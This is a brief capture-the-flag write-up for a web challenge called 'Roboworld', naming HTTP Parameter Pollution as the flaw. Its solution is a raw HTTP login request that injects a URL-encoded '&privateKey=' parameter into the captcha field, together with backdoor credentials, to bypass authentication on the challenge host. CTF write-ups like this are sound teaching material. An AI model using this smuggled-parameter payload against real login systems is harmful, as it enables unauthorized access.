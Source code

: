 # Roboworld
## Challege
>A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
>
>Can you figure out what's wrong and access the secret files?

## Vulnerability
[HTTP Parameter Pollution](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004))

## Solution
```HTTP
POST /login HTTP/1.1

Host: challs.xmas.htsp.ro:11000

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 112

Origin: http://challs.xmas.htsp.ro:11000

Connection: close

session=eyJsb2dnZWQiOnRydWV9.XfzYLQ.1rg_CZFyi5Z5wgS6KVdLzlB2220;

Referer: http://challs.xmas.htsp.ro:11000/

Upgrade-Insecure-Requests: 1



user=backd00r&pass=catsrcool&captcha_verification_value=anything%26privateKey%3d8EE86735658A9CE426EAF4E26BB0450E
```
